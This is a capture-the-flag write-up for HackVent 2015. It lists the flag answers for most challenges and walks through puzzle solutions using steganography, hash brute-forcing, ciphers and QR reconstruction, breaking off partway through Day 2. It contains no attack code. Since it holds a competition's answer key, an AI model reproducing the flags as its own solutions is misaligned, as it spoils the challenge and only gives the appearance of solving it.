# HackVent 2015

Another edition of Hacking-Lab's annual advent calender CTF. Every day between December 1 and Christmas, a new challenge is released. Solve it on the day of release for maximum points, solve it later (but before the new year) for one point less. 

## Overview


```
Title                                    Category  Points  Flag
---------------------------------------- --------- ------- -----------------------------
Teaser: Santa's Leak                     Easy      2/1     HV15-W!ll-R0ck-t#i$-xM4s-H0b0
Dec 1: Hello                             Easy      2/1     HV15-Tz9K-4JIJ-EowK-oXP1-NUYL
Dec 2: Say me your name                  Easy      2/1     HV15-AfDd-Mr5J-zf1v-K7aO-FQ4h
Dec 3: Catch me                          Easy      2/1     HV15-6Jhd-nWbQ-4dY8-yxH5-vSiA
Dec 4: Crypto 1                          Easy      2/1     HV15-OWoV-lO6j-Aqq8-fV7M-Oduv
Dec 5: PDF                               Easy      2/1     HV15-bkPb-tPEM-Fh3n-wvOi-5ZgD
Dec 6: Lost..                            Easy      2/1     HV15-t9P8-QaIV-J0Ar-83F3-M8Dc 
Dec 7: Imagination                       Medium    3/2     HV15-aFsf-4ea1-2eGg-Llr4-pB5A
Dec 8: Santa's Christmas Store           Medium    3/2     HV15-0Ch0-91zo-m99Y-kxGI-8iQ5
Dec 9: Sound Transmission                Medium    3/2     HV15-GnUj-1YQ7-vdYC-2wlr-E6xj
Dec 10: Nasty Zip                        Medium    3/2     HV15-iQYf-adNg-o4S9-JHc7-vfWu
Dec 11: Old School                       Medium    3/2     HV15-m3hn-BG5H-lufe-8WPM-kzfk
Dec 12: High Performance Computing       Medium    3/2     HV15-mHPC-067e-751e-f50e-17e3
Dec 13: Ball in plain sight!?!           Medium    3/2     HV15-1W0A-gTOY-bOpM-mexV-LoAz
Dec 14: Reversing #1                     Hard      4/3     HV15-uQEJ-4HPX-Qcau-Xvt7-NAlP
Dec 15: Paper and Pen                    Hard      4/3     HV15-U3bA-BKhc-gNqN-Hit6-C1fK
Dec 16: Reversing #2                     Hard      4/3
Dec 17: Santa's Quick Response           Hard      4/3     HV15-KLg1-vnhb-qO3v-02Fd-IzOR
Dec 18: Reversing #3                     Hard      4/3     HV15-9aSY-BcJH-N8tK-AHzP-QmHY
Dec 19: Soap Riddler                     Hard      4/3     HV15-uUIh-wudK-YAam-fIw5-YuNo
Dec 20:                                  Hard      4/3     
Dec 21: Mr Santa                         Expert    5/4     HV15-TZHg-KRLH-tHlC-PmiZ-uWzB
Dec 22: Saving XMas                      Expert    5/4
Dec 23:                                  Expert    5/4
Dec 24: I'll Give You My Present         Expert    5/4
```


## Teaser: Santa's Leak

A few weeks before the start of the event, a teaser challenge was released.

**Challenge**  

Santa's work has been leaked by a the infamous group "Chuchichästli 1337 ".
They were only able to grab the logo, but not to reveal the secret. 

Can you help them and find the HACKvent - Nugget (HV15-aaaa-bbbb-cccc-dddd-eeee)?


In order to get full points, submit the HV-Nugget and a (short) description how you get it.

*Hint: This is a multistage challenge, with different steps you have to solve. At the end you will get the final nugget which begins with "HV15-".*

**Solution**  

Scanning the QR code of the first bauble gives us:

```
nyy lbh arrq vf  urer
```

which when ROT-13'ed gives:

```
all you need is here
```

We use binwalk to check for secret files hidden within the image file:

```bash 
$ binwalk santas_leak_new.png 

DECIMAL   	HEX       	DESCRIPTION
---------------------------------------------------------------------------------------
0         	0x0       	PNG image, 256 x 256, 8-bit/color RGBA, non-interlaced
76450     	0x12AA2   	RAR archive data

```

So we see there is a RAR archive appended to the end of the image file. We can use binwalk to extract it for us:

```bash
$ binwalk -D 'rar archive:rar' santas_leak_new.png 
```

The [rar file](writeupfiles/12AA2.rar) contains a [WAV file](writeupfiles/2.wav).

The audio file sounds like a series of DTMF sounds. We can decode this online here: [http://dialabc.com/sound/detect/index.html](http://dialabc.com/sound/detect/index.html). This is the output we get from the site:

```
Tone	Start Offset [ms]	End Offset [ms]	Length [ms]
1	0 ± 15     		301 ± 15   	301 ± 30
0	331 ± 15   		662 ± 15   	331 ± 30
6	692 ± 15   		994 ± 15   	301 ± 30
1	1,054 ± 15 		1,355 ± 15 	301 ± 30
1	1,385 ± 15 		1,717 ± 15 	331 ± 30
7	1,747 ± 15 		2,048 ± 15 	301 ± 30
1 	2,078 ± 15 		2,410 ± 15 	331 ± 30
1	2,440 ± 15 		2,771 ± 15 	331 ± 30
5	2,801 ± 15 		3,102 ± 15 	301 ± 30
1	3,133 ± 15 		3,464 ± 15 	331 ± 30
1	3,494 ± 15 		3,795 ± 15 	301 ± 30
6	3,856 ± 15 		4,157 ± 15 	301 ± 30
3	4,187 ± 15 		4,518 ± 15 	331 ± 30
2	4,548 ± 15 		4,850 ± 15 	301 ± 30
1	4,880 ± 15 		5,211 ± 15 	331 ± 30
1	5,241 ± 15 		5,543 ± 15 	301 ± 30
2	5,603 ± 15 		5,904 ± 15 	301 ± 30
1	5,934 ± 15 		6,266 ± 15 	331 ± 30
1	6,296 ± 15 		6,597 ± 15 	301 ± 30
1	6,627 ± 15 		6,958 ± 15 	331 ± 30
1	6,989 ± 15 		7,320 ± 15 	331 ± 30
1	7,350 ± 15 		7,651 ± 15 	301 ± 30
5	7,681 ± 15 		8,013 ± 15 	331 ± 30
1	8,043 ± 15 		8,344 ± 15 	301 ± 30
1	8,404 ± 15 		8,706 ± 15 	301 ± 30
5	8,736 ± 15 		9,067 ± 15 	331 ± 30
1	9,097 ± 15 		9,399 ± 15 	301 ± 30
0	9,429 ± 15 		9,760 ± 15 	331 ± 30
5	9,790 ± 15 		10,122 ± 15	331 ± 30
9	10,152 ± 15		10,453 ± 15	301 ± 30
8	10,483 ± 15		10,814 ± 15	331 ± 30
1	10,845 ± 15		11,146 ± 15	301 ± 30
0	11,176 ± 15		11,507 ± 15	331 ± 30
8	11,537 ± 15		11,869 ± 15	331 ± 30
1	11,899 ± 15		12,200 ± 15	301 ± 30
0	12,230 ± 15		12,562 ± 15	331 ± 30
1	12,592 ± 15		12,893 ± 15	301 ± 30
3	12,953 ± 15		13,255 ± 15	301 ± 30
2	13,285 ± 15		13,616 ± 15	331 ± 30
1	13,646 ± 15		13,947 ± 15	301 ± 30
1	13,978 ± 15		14,309 ± 15	331 ± 30
9	14,339 ± 15		14,670 ± 15	331 ± 30
1	14,701 ± 15		15,002 ± 15	301 ± 30
0	15,032 ± 15		15,363 ± 15	331 ± 30
5	15,393 ± 15		15,695 ± 15	301 ± 30
1	15,755 ± 15		16,056 ± 15	301 ± 30
1	16,086 ± 15		16,418 ± 15	331 ± 30
6	16,448 ± 15		16,749 ± 15	301 ± 30
1	16,779 ± 15		17,111 ± 15	331 ± 30
0	17,141 ± 15		17,472 ± 15	331 ± 30
4	17,502 ± 15		17,803 ± 15	301 ± 30
1	17,834 ± 15		18,165 ± 15	331 ± 30
0	18,195 ± 15		18,496 ± 15	301 ± 30
5	18,557 ± 15		18,858 ± 15	301 ± 30
1	18,888 ± 15		19,219 ± 15	331 ± 30
1	19,249 ± 15		19,551 ± 15	301 ± 30
0	19,581 ± 15		19,912 ± 15	331 ± 30
3	19,942 ± 15		20,244 ± 15	301 ± 30
2	20,304 ± 15		20,605 ± 15	301 ± 30
1	20,635 ± 15		20,967 ± 15	331 ± 30
1	20,997 ± 15		21,298 ± 15	301 ± 30
```

looks like decimal-encoded ascii characters

```
106 117 115 116 32 112 111 115 115 105 98 108 101 32 119 
105 116 104 105 110 32 115 117 99 104 32 97 32 114 97 114
```

which translates to

```
just possible within such a rar
```

hmm, what now..? seems to be pointing us back to the direction of the rar file, could there be anything else hidden?

```
$ unrar ltab 12AA2.rar 

UNRAR 5.00 beta 8 freeware      Copyright (c) 1993-2013 Alexander Roshal

Archive: 12AA2.rar
Details: RAR 4

        Name: 2.wav
        Type: File
        Size: 470444
 Packed size: 419609
       Ratio: 89%
       mtime: 2015-11-14 11:12,000
  Attributes: ..A....
       CRC32: 7F094717
     Host OS: Windows
 Compression: RAR 3.0(v29) -m3 -md=512K

        Name: STM
        Type: NTFS alternate data stream
      Target: :3.txt
        Size: 490901
 Packed size: 376134
       Ratio: 76%
       mtime: 2015-11-14 11:12,000
  Attributes: .B
       CRC32: 979A0B91
     Host OS: Windows
 Compression: RAR 3.0(v29) -m3 -md=64K

     Service: EOF
```

Looks like there is an NTFS alternate data stream present. We switch to Windows and use a tool to extract the ADS

[http://www.nirsoft.net/utils/alternate_data_streams.html](http://www.nirsoft.net/utils/alternate_data_streams.html)

We get the following file: [2.wav:3.txt](writeupfiles/2.wav_3.txt.dat), which looks like base64 encoded data:


```
JVBERi0xLjUNCiWhs8XXDQoxIDAgb2JqDQo8PC9UeXBlL0NhdGFsb2cvUGFnZXMg
MiAwIFIgL0xhbmcoZGUtQ0gpL1N0cnVjdFRyZWVSb290IDE1IDAgUiAvTWFya0lu
Zm88PC9NYXJrZWQgdHJ1ZT4+L0Fjcm9Gb3JtPDwvRmllbGRzW10+Pi9OYW1lcyA4
NCAwIFIgPj4NCmVuZG9iag0KMyAwIG9iag0KPDwvVHlwZS9QYWdlL1BhcmVudCAy
IDAgUiAvUmVzb3VyY2VzPDwvRm9udDw8L0YxIDUgMCBSIC9GMiAxMiAwIFIgPj4v
RXh0R1N0YXRlPDwvR1M3IDcgMCBSIC9HUzggOCAwIFIgPj4vWE9iamVjdDw8L0lt
YWdlOSA5IDAgUiAvSW1hZ2UxMCAxMCAwIFIgPj4vUHJvY1NldFsvUERGL1RleHQv
SW1hZ2VCL0ltYWdlQy9JbWFnZUldPj4vTWVkaWFCb3hbIDAgMCA1OTUuMzIgODQx
LjkyXS9Db250ZW50cyA0IDAgUiAvR3JvdXA8PC9UeXBlL0dyb3VwL1MvVHJhbnNw
YXJlbmN5L0NTL0RldmljZVJHQj4+L1RhYnMvUy9TdHJ1Y3RQYXJlbnRzIDA+Pg0K
ZW5kb2JqDQo0IDAgb2JqDQo8PC9GaWx0ZXIvRmxhdGVEZWNvZGUvTGVuZ3RoIDUw
[..]
```

we decode and get the following file: [base64decoded.bin](writeupfiles/base64decoded.bin)

```
$ file base64decoded.bin

base64decoded.bin: PDF document, version 1.5
```

Aha! it's a [PDF file](writeupfiles/base64decoded.pdf)

And it contains brainfuck!

```
+++++ +++[- >++++ ++++< ]>+++ +++++ .<+++ ++[-> +++++ <]>++ ++.<+ +++[-
>++++ <]>++ ++.<+ +++++ +++[- >---- ----- <]>-- ----- -.<++ +++++ +[->+
+++++ ++<]> +++++ +++++ ++.-- ----- ..<++ +[->+ ++<]> +++++ +.-.< +++++
+++[- >---- ----< ]>--- ----. <+++[ ->--- <]>-- -.<++ ++[-> ----< ]>---
.---. <++++ +++[- >++++ +++<] >++++ +++++ +++++ .<+++ +++[- >++++ ++<]>
.<+++ +++++ [->-- ----- -<]>- ----- ----- --.<+ +++++ ++[-> +++++ +++<]
>++++ +++.+ ++++. <+++[ ->--- <]>-- .+++. <++++ ++++[ ->--- ----- <]>--
--.<+ +++++ +++[- >++++ +++++ <]>++ +++++ +.<++ +[->- --<]> -.+++ +++.<
+++++ ++++[ ->--- ----- -<]>- ---.< +++++ +++[- >++++ ++++< ]>+++ +++.+
+++++ +++.+ +++++ .---- ---.< +++[- >---< ]>-.< +++++ +++[- >---- ----<
]>--- -.<++ +++++ ++[-> +++++ ++++< ]>+++ .<+++ [->-- -<]>- --.-- -.<++
+++++ +[->- ----- --<]> ----- .<+++ +++++ +[->+ +++++ +++<] >++++ ++.<+
+++[- >---- <]>-- ----. <++++ [->++ ++<]> +++++ +++.< +++++ ++++[ ->---
----- -<]>- ----- --.<+ +++++ +++[- >++++ +++++ <]>++ +.--- --.<+ +++++
++[-> ----- ---<] >---- ----- ----- -.<++ +++++ ++[-> +++++ ++++< ]>+++
.<+++ [->-- -<]>- --.+. <+++[ ->+++ <]>+. <++++ +++++ [->-- ----- --<]>
--.<+ +++++ +++[- >++++ +++++ <]>++ .+.<+ ++[-> ---<] >---- --.<+ ++[->
+++<] >++.< +++++ +++[- >---- ----< ]>--. <++++ +[->- ----< ]>--- -----
.---. +++.- --.<+ +++++ ++[-> +++++ +++<] >++++ +++++ .<+++ +[->+ +++<]
>++.- ---.< ++++[ ->+++ +<]>+ .<+++ [->-- -<]>- ----- .++++ +.<++ +++++
+[->- ----- --<]> ----- ---.< +++++ ++++[ ->+++ +++++ +<]>+ ++.<+ ++[->
---<] >---. ---.< +++++ +++[- >---- ----< ]>--- --.<+ +++++ ++[-> +++++
+++<] >++++ +++++ +++++ +.+++ ++.<+ ++[-> ---<] >---. ---.< +++[- >+++<
]>+++ +.<++ +++++ ++[-> ----- ----< ]>-.< ++++[ ->+++ +<]>+ +.<++ ++[->
----< ]>--. <++++ ++++[ ->+++ +++++ <]>++ ++++. +++.+ ++.-- ----- .<+++
[->++ +<]>+ ++++. <++++ +++++ [->-- ----- --<]> --.<+ +++++ ++[-> +++++
+++<] >+.<+ ++[-> +++<] >++++ .<+++ [->-- -<]>- .<+++ +++++ [->-- -----
-<]>- ---.< +++++ ++++[ ->+++ +++++ +<]>+ ++.<+ +++[- >---- <]>-- -.<++
+[->+ ++<]> +.--- ---.< +++[- >+++< ]>+.- ----- ---.. <++++ ++++[ ->---
----- <]>-- ----. <++++ +++++ [->++ +++++ ++<]> +++.- ----. <++++ ++++[
->--- ----- <]>-- ----- ----- ---.< +++++ ++++[ ->+++ +++++ +<]>+ ++.<+
++[-> ---<] >---. ---.< +++++ +++[- >---- ----< ]>--- --.<+ +++++ ++[->
+++++ +++<] >++++ +++++ +++++ .---- ----- .<+++ +[->+ +++<] >+++. ----.
<++++ +++++ [->-- ----- --<]> ---.< +++++ ++++[ ->+++ +++++ +<]>+ +.+.<
+++[- >---< ]>--- ---.< +++[- >+++< ]>++. <++++ ++++[ ->--- ----- <]>--
----- ----- ---.< ++++[ ->--- -<]>- ---.- --.++ +.--- .<+++ +++++ [->++
+++++ +<]>+ +++++ +++++ ++++. <++++ [->++ ++<]> +++++ +.+++ +++.- --.+.
<++++ ++++[ ->--- ----- <]>-- ----- .<+++ [->-- -<]>- --.<+ +++++ +++[-
>++++ +++++ <]>++ .<+++ +[->- ---<] >--.< +++[- >+++< ]>+++ +.+++ +++.<
++++[ ->--- -<]>- --.<
```

We run the brainfuck program (for instance here: [http://esoteric.sange.fi/brainfuck/impl/interp/i.html](http://esoteric.sange.fi/brainfuck/impl/interp/i.html) )

and get the following output:

```
Hey leets, 

Im glad you found the way to this step.


Search the other 2 files and takeoff to the next step!


Yours, santa
```

Hmm.. So there must be more hidden files somewhere..

We use [pdfextract.com](pdfextract.com) to find all files embedded in the pdf. This gives us the following three images:




The first image is a stereogram. We can find the hidden image using this website: [http://magiceye.ecksdee.co.uk/](http://magiceye.ecksdee.co.uk/)



It's windings!


It spells

```
ball=sha1([01]{25})
```

Hmmm... No clue what that means, something involving sha1 hashes..

We keep looking in all files and find another image hidden in the pdf file using binwalk:

```
$ binwalk base64decoded.pdf 

DECIMAL   	HEX       	DESCRIPTION
-------------------------------------------------------------------------------------------------------
345872    	0x54710   	PNG image, 120 x 120, 8-bit/color RGB, non-interlaced

```

We again extract it with binwalk

```
$ binwalk -D 'PNG image:png'  base64decoded.pdf 

DECIMAL   	HEX       	DESCRIPTION
-------------------------------------------------------------------------------------------------------
345872    	0x54710   	PNG image, 120 x 120, 8-bit/color RGB, non-interlaced

```

[link](writeupfiles/54710.png)


There is something interesting in the exif data of this image:

```
$ exiftool 54710.png ExifTool Version Number         : 9.46
File Name                       : 54710.png
Directory                       : .
File Size                       : 16 kB
File Modification Date/Time     : 2015:11:15 22:48:34+01:00
File Access Date/Time           : 2015:11:15 22:48:35+01:00
File Inode Change Date/Time     : 2015:11:15 22:48:34+01:00
File Permissions                : rwxrwxrwx
File Type                       : PNG
MIME Type                       : image/png
Image Width                     : 120
Image Height                    : 120
Bit Depth                       : 8
Color Type                      : RGB
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
Gamma                           : 2.2
White Point X                   : 0.31269
White Point Y                   : 0.32899
Red X                           : 0.63999
Red Y                           : 0.33001
Green X                         : 0.3
Green Y                         : 0.6
Blue X                          : 0.15
Blue Y                          : 0.05999
Pixels Per Unit X               : 2834
Pixels Per Unit Y               : 2834
Pixel Units                     : Meters
Software                        : paint.net 4.0.6
Comment                         : 754c6738acc834944b90b2a9a77bdbacb093f6e4.a1ff6b23bb8ed85b6f0adf9f65f007e9b3e348e0.848fdbfa2d28a1aee0d82c8a707c4d1261f51079.312189262e204aa9027ca64db1d43d1153a860e5.21f4c0b5e077f82739c0748df71610fc6285e768.3ded376898e8843999f1d0df89137308542acac2.a9f2066e530187b9371ada082e11a56127028749.d028c883a63e2232783ea6f54ce6d0091a9d2d84.610bf7f4144cf300ef086254459c427d16767d6a.e56a109aab8b4e9b18e099a8ae1477d8de270149.5de13aa399cf9e3042af96eab88d28def1f58549.a5229747c1437b737ac2cc1567f173d4a4ba12ba.2bb48bc2105ca33f56906d8c6c4b6aec4c16cb58.e7a804128bc3ae8150adeb80ac695fdea0f2b643.12aae009a8d38f6585debaddef79aed5cd858df4.8b7c437b1d8cdbb8a72a9783b3882c87d397c76a.4b1dfd5c05068a37df7ebfef64bb5bc4a8c7daab.7a781addb8ef467884ecb62bbe1bb7d024b0eb83.6d23cafac980692dc7401fd53cf287aec49d4ae2.16f607d441caf3cbda5335bccd2f104da131f2a9.7982fcaa2b59698d3eb5aa05369454b105de6dc3.5e836fbdb63db38d2f9a8604dd90856a9791efce.b5adb5a6cccc137d6851e2fcb5fa276307edf8f4.06004577f5d35b54b80a53a20aedf5895509bffa.1e238015f260d4d485e3e9d64fa17db80eb81708
Image Size                      : 120x120

```

```
754c6738acc834944b90b2a9a77bdbacb093f6e4.a1ff6b23bb8ed85b6f0adf9f65f007e9b3e348e0.848fdbfa2d28a1aee0d82c8a707c4d1261f51079.312189262e204aa9027ca64db1d43d1153a860e5.21f4c0b5e077f82739c0748df71610fc6285e768.3ded376898e8843999f1d0df89137308542acac2.a9f2066e530187b9371ada082e11a56127028749.d028c883a63e2232783ea6f54ce6d0091a9d2d84.610bf7f4144cf300ef086254459c427d16767d6a.e56a109aab8b4e9b18e099a8ae1477d8de270149.5de13aa399cf9e3042af96eab88d28def1f58549.a5229747c1437b737ac2cc1567f173d4a4ba12ba.2bb48bc2105ca33f56906d8c6c4b6aec4c16cb58.e7a804128bc3ae8150adeb80ac695fdea0f2b643.12aae009a8d38f6585debaddef79aed5cd858df4.8b7c437b1d8cdbb8a72a9783b3882c87d397c76a.4b1dfd5c05068a37df7ebfef64bb5bc4a8c7daab.7a781addb8ef467884ecb62bbe1bb7d024b0eb83.6d23cafac980692dc7401fd53cf287aec49d4ae2.16f607d441caf3cbda5335bccd2f104da131f2a9.7982fcaa2b59698d3eb5aa05369454b105de6dc3.5e836fbdb63db38d2f9a8604dd90856a9791efce.b5adb5a6cccc137d6851e2fcb5fa276307edf8f4.06004577f5d35b54b80a53a20aedf5895509bffa.1e238015f260d4d485e3e9d64fa17db80eb81708
```

```
754c6738acc834944b90b2a9a77bdbacb093f6e4
a1ff6b23bb8ed85b6f0adf9f65f007e9b3e348e0
848fdbfa2d28a1aee0d82c8a707c4d1261f51079
312189262e204aa9027ca64db1d43d1153a860e5
21f4c0b5e077f82739c0748df71610fc6285e768
3ded376898e8843999f1d0df89137308542acac2
a9f2066e530187b9371ada082e11a56127028749
d028c883a63e2232783ea6f54ce6d0091a9d2d84
610bf7f4144cf300ef086254459c427d16767d6a
e56a109aab8b4e9b18e099a8ae1477d8de270149
5de13aa399cf9e3042af96eab88d28def1f58549
a5229747c1437b737ac2cc1567f173d4a4ba12ba
2bb48bc2105ca33f56906d8c6c4b6aec4c16cb58
e7a804128bc3ae8150adeb80ac695fdea0f2b643
12aae009a8d38f6585debaddef79aed5cd858df4
8b7c437b1d8cdbb8a72a9783b3882c87d397c76a
4b1dfd5c05068a37df7ebfef64bb5bc4a8c7daab
7a781addb8ef467884ecb62bbe1bb7d024b0eb83
6d23cafac980692dc7401fd53cf287aec49d4ae2
16f607d441caf3cbda5335bccd2f104da131f2a9
7982fcaa2b59698d3eb5aa05369454b105de6dc3
5e836fbdb63db38d2f9a8604dd90856a9791efce
b5adb5a6cccc137d6851e2fcb5fa276307edf8f4
06004577f5d35b54b80a53a20aedf5895509bffa
1e238015f260d4d485e3e9d64fa17db80eb81708
```

These could be the SHA1 hashes alluded to by the wingdings.


It cannot be the SHA1 encryption of the final key, as that would take too long too bruteforce with 20 unknown characters:

```
HV15-aaaa-bbbb-cccc-dddd-eeee
```

We need to know more about the possible strings the SHA1 hashes encode..

Ah, but that is exactly what the windings were trying to tell us!

```
ball=sha1([01]{25})
```

The sha1 hashes encode 25-character long binary strings, and that is something we can easily bruteforce:

```python
import hashlib 
import itertools

target=["754c6738acc834944b90b2a9a77bdbacb093f6e4",
"a1ff6b23bb8ed85b6f0adf9f65f007e9b3e348e0",
"848fdbfa2d28a1aee0d82c8a707c4d1261f51079",
"312189262e204aa9027ca64db1d43d1153a860e5",
"21f4c0b5e077f82739c0748df71610fc6285e768",
"3ded376898e8843999f1d0df89137308542acac2",
"a9f2066e530187b9371ada082e11a56127028749",
"d028c883a63e2232783ea6f54ce6d0091a9d2d84",
"610bf7f4144cf300ef086254459c427d16767d6a",
"e56a109aab8b4e9b18e099a8ae1477d8de270149",
"5de13aa399cf9e3042af96eab88d28def1f58549",
"a5229747c1437b737ac2cc1567f173d4a4ba12ba",
"2bb48bc2105ca33f56906d8c6c4b6aec4c16cb58",
"e7a804128bc3ae8150adeb80ac695fdea0f2b643",
"12aae009a8d38f6585debaddef79aed5cd858df4",
"8b7c437b1d8cdbb8a72a9783b3882c87d397c76a",
"4b1dfd5c05068a37df7ebfef64bb5bc4a8c7daab",
"7a781addb8ef467884ecb62bbe1bb7d024b0eb83",
"6d23cafac980692dc7401fd53cf287aec49d4ae2",
"16f607d441caf3cbda5335bccd2f104da131f2a9",
"7982fcaa2b59698d3eb5aa05369454b105de6dc3",
"5e836fbdb63db38d2f9a8604dd90856a9791efce",
"b5adb5a6cccc137d6851e2fcb5fa276307edf8f4",
"06004577f5d35b54b80a53a20aedf5895509bffa",
"1e238015f260d4d485e3e9d64fa17db80eb81708"]

alphabet = "01"

perms=itertools.product(alphabet,repeat=25)

solutions=[0]*25
for p in perms:
    t = ''.join(p)       
    s= hashlib.sha1(t).hexdigest()
    
    if s in target:
        solutions[target.index(s)]=t
        
for s in solutions:
    print s
        
```

after less than a minute we get the following output:

```
0000000111110111110000000
0111110101010101010111110
0100010111110010010100010
0100010100010111110100010
0100010110111100110100010
0111110100100111110111110
0000000101010101010000000
1111111001101101001111111
0000010111011101111010101
1001001110101011111101111
1011110000110010110111100
0001101010001111110111010
0111100101101111110001110
0101011101000000000101110
0110100101011000001011101
0110101111001011100111100
0110000000101100110001110
1111111010011011101100101
0000000100011101010100110
0111110111111010011101101
0100010101011101000001110
0100010100100101101001010
0100010101100111010100110
0111110100011000110010011
0000000100100100000010110
```

That looks suspiciously like a QR code!!

let's turn it into an image with python:

```python

from PIL import Image

bitstring="0000000111110111110000000011111010101010101011111001000101111100100101000100100010100010111110100010010001011011110011010001001111101001001111101111100000000101010101010000000111111100110110100111111100000101110111011110101011001001110101011111101111101111000011001011011110000011010100011111101110100111100101101111110001110010101110100000000010111001101001010110000010111010110101111001011100111100011000000010110011000111011111110100110111011001010000000100011101010100110011111011111101001110110101000101010111010000011100100010100100101101001010010001010110011101010011001111101000110001100100110000000100100100000010110"

outimg= Image.new("RGB",(25,25),"black")
pixels_out = outimg.load()

count=-1
for i in range(0,25):
    for j in range (0,25):
        count+=1
        if bitstring[count]=="1":
            pixels_out[(j,i)]=(255,255,255)

 
outimg=outimg.resize((100,100))
outimg.save("qrout.png","png")

```


Hmm, seems not quite readable..

Below is an explanation of the QRcode format:

---


* The three large squares highlighted in red are the position markers. These tell the scanner where the edges of the code are.
* The smaller red square is an alignment marker. This acts as a reference point for the scanner, making sure everything lines up properly. In bigger codes, there are several of these squares.
* The red strips of alternating black and white modules are called timing patterns. They define the positioning of the rows and columns.
* The green sections determine the format. This tells the scanner whether it’s a website, text message, Chinese symbols, numbers, or any combination of these.
* The modules highlighted in blue represent the version number. Basically, the more modules in the code, the higher the version (up to v40, which is 177×177 modules). If the code is version 6 or smaller, the version does not need to be defined here because the scanner can literally count the modules and determine the version on its own.

---

The red areas should always be the same for any QR code, but we see that four ours it is not. We also notice that the areas in the inner square of the QR code overlapping the red zones are exactly inverse of what they should be. So we invert the pixels in that area to fix this QR code image.


Whoohoo!! This QR code is readable and gives us the final flag:

```
HV15-W!ll-R0ck-t#i$-xM4s-H0b0
```


**Nugget**  


```
HV15-W!ll-R0ck-t#i$-xM4s-H0b0
```


## Dec 1: Hello  

**Challenge**  

*world*

```
Ns ly ns! Hy esy dnmru Yerdg mw xux e parri ser kz epv? Lsv iuy roxhw s nezo g wtoimev xmhnri: Jsth xrk 
tmmzyvo o'zi lkir rohmxm hsehpc puv cya. Jmbyx cya amvr jmxj mx rohhot sr dni lkiozotx woxzib grh dnir 
... knq, ry, lmrn zli sjirdogev oqeqk csexwivl mr dni ayxph gohi gkf. Lk ne lk, tmgo psoo cled? Hyx sz'w 
xrk xvezl, cya lefk xs nu xlkz! Lezvc enbird, esyby Wexze 
```

**Solution**  

Looks like a letter. Could start with "ho ho ho" and end with "Santa". If so this is not a simple substitution cipher, perhaps vigenere? We try the online solver here: http://www.guballa.de/vigenere-solver and find the decryption:


```
(key= "geek" )

Ho ho ho! Do you think Santa is not a funny man at all? For you nerds i have a special riddle: Find the 
picture i've been hiding doubly for you. First you will find it hidden on the hackvent server and then 
... ahm, no, find the identical image yourself in the world wide web. Ha ha ha, nice joke what? But it's 
the truth, you have to do that! Happy advent, yours Santa
```

Hmm..

Let's check out the `robots.txt` file to see if anything is hidden from crawlers:

```
Disallow: /MeMyselfAndI-surfingInTheSky/hacker.jpg
```

aha, we have our hidden image:


Santa's message seems to suggest we need to find that same image on the web. Let's try Google image search. We get a hit on `http:\\hacking-lab.club`, which shows the following:



hmm, it would appear we need to look at what the website looked like before the start of the CTF. Let's ask the [wayback machine](http://archive.org/web/). We see that there is an archived version from December 8, as the bauble image suggests. Unfortunately the images themselves weren't cached, but we can see that the image next to the truck used to be `work.png`, so we look at `http:\\hacking-lab.club\work.png` and sure enough we find the real bauble image:


Scanning the code gives the nugget.

**Nugget**

```
HV15-Tz9K-4JIJ-EowK-oXP1-NUYL
```


## Dec 2: Say me your name

**Challenge**  

*... and i say you your language*

```
pagh wa'vatlh netlh wa'maH wa'maH wa' SaD wa' SaD wa'vatlh wa' wa'maH wa'maH wa'vatlh wa'maH wa' wa'maH wa'maH netlh pagh wa'maH wa' wa'vatlh wa' wa'vatlh SaD SaD wa' wa'vatlh netlh wa'maH wa' wa'maH wa'maH wa'vatlh wa' wa'maH wa'maH wa' wa' wa'vatlh SaD wa' wa'maH wa'maH wa'maH wa'vatlh wa'maH SaD wa'maH wa' wa'maH wa'maH wa' wa' wa' wa'maH wa'vatlh wa' wa'vatlh wa' SaD wa' SaD wa'maH wa' wa' wa'maH wa' SaD  wa'maH wa' wa'maH wa'maH wa'vatlh wa'maH wa' wa'vatlh wa' wa'maH wa' wa' wa'maH wa' netlh wa'maH wa'vatlh wa' wa' wa' wa'vatlh wa'maH wa' wa'maH wa'maH SaD wa' wa'vatlh wa'maH SaD wa'vatlh wa' wa'maH SaD wa' wa'maH SaD
```

**Solution**  

Looks like Klingon. We translate it (see here for Klingon number system http://klingonska.org/ref/num.html) to get:

```python
klingon = "pagh wa'vatlh netlh wa'maH wa'maH wa' SaD wa' SaD wa'vatlh wa' wa'maH wa'maH wa'vatlh wa'maH wa' wa'maH wa'maH netlh pagh wa'maH wa' wa'vatlh wa' wa'vatlh SaD SaD wa' wa'vatlh netlh wa'maH wa' wa'maH wa'maH wa'vatlh wa' wa'maH wa'maH wa' wa' wa'vatlh SaD wa' wa'maH wa'maH wa'maH wa'vatlh wa'maH SaD wa'maH wa' wa'maH wa'maH wa' wa' wa' wa'maH wa'vatlh wa' wa'vatlh wa' SaD wa' SaD wa'maH wa' wa' wa'maH wa' SaD  wa'maH wa' wa'maH wa'maH wa'vatlh wa'maH wa' wa'vatlh wa' wa'maH wa' wa' wa'maH wa' netlh wa'maH wa'vatlh wa' wa' wa' wa'vatlh wa'maH wa' wa'maH wa'maH SaD wa' wa'vatlh wa'maH SaD wa'vatlh wa' wa'maH SaD wa' wa'maH SaD"

klingon2english = {'netlh':'tenthousand', 
                   'SaD':'thousand', 
                   "wa'vatlh":'onehundred', 
                   "wa'maH":'ten', 
                   "wa' ":'one ', 
                   'pagh':'zero' }
english=klingon

for key in klingon2english:
    english=english.replace(key,klingon2english[key])    

print english
```

which outputs:

```
zero onehundred tenthousand ten ten one thousand one thousand onehundred one ten ten onehundred ten one ten
ten tenthousand zero ten one onehundred one onehundred thousand thousand one onehundred tenthousand ten one
ten ten onehundred one ten ten one one onehundred thousand one ten ten ten onehundred ten thousand ten one 
ten ten one one one ten onehundred one onehundred one thousand one thousand ten one one ten one thousand 
ten one ten ten onehundred ten one onehundred one ten one one ten one tenthousand ten onehundred one one 
one onehundred ten one ten ten thousand one onehundred ten thousand onehundred one ten thousand one ten 
thousand
```


This looks like it could be describing binary. We make a quick python script to decode Klingon --> binary --> ascii :


```python
import binascii

